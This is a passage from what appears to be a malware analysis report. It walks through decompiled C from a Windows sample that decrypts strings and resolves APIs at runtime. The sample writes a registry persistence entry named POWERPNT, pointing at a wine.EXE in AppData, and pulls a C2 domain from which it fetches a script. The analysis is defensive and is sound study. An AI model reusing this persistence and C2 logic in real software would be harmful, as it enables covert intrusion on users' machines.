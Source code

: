 ```c
RegCreateKeyExW(-0x7fffffff, GetDecrypted_string_regkey(&var_d60), 0, 0, var_10a8_1, 2, 0, &var_ca0, 0); 
```
Par la suite, à l'aide de la fonction `RegSetKey` il attribue une entrée `POWERPNT` à cette RegKey ainsi que le chemin vers l'exécutable `wine.EXE` (`C:\Users\User\AppData\Local\POWERPNT\wine.EXE`), :

```c
GetEncryptedDataOf_RegSetValueExW(&var_d81, &var_d80);
void* name_RegSetValueExW = DecryptData_5(var_1040_1);
void var_db1;
void var_db0;
int64_t r9_24 = GetEncryptedDataOf_advapi32(&var_db1, &var_db0);
void* name_advapi32;
int64_t r8_36;
name_advapi32 = DecryptData_2(&var_db0);
module_name = name_advapi32;
void* RegSetValueExW;
int64_t rdx_72;
int64_t r8_37;
int64_t r9_25;
RegSetValueExW = ResolveFunction(module_name, name_RegSetValueExW, r8_36, r9_24);
int32_t path_wine_EXE = wcslen(&dest, rdx_72, r8_37, r9_25);
void var_dd9;
void var_dd8;
GetEncryptedDataOf_POWERPNT3(&var_dd9, &var_dd8);
void* name_POWERPNT = DecryptData_6(&var_dd8);
RegSetValueExW(var_ca0, name_POWERPNT, 0, 1, &dest, path_wine_EXE * 2 + 2);
```

Finally, the code closes access to the RegKey.

### Server Connection and Script Download

At this point, the code performs no malicious actions. However, after installing persistence, it attempts to connect to a server and retrieve a script (or executable — without access to the server, it is impossible to know).

First, the code obtains an encrypted user agent string in memory, which is as follows:

`Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36`

This string is used to get the session handle for opening the connection with the server, using `WinHttpOpen`.

Next, it retrieves the server name, which is `ophibre.com`:

```c
GetEncryptedDataOf_ServerName(&var_1f1, &EncryptedNameOf_server);
void* server_name;
int64_t r8_2;
server_name = DecryptData_4(&EncryptedNameOf_server);
```
